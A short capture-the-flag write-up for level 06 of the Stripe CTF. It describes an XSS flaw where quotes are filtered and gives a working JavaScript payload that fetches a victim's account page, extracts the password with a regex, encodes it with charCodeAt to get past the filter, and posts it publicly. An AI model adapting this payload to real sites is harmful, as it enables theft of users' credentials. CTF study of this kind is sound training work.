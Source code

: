 LEVEL 06
========

XSS vulnerability, only ' & " are not allowd, add < script >.

    $.get('https://level06-2.stripe-ctf.com/user-gdnipyajcv/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Escape with JavaScript String.charCodeAt()
[http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)
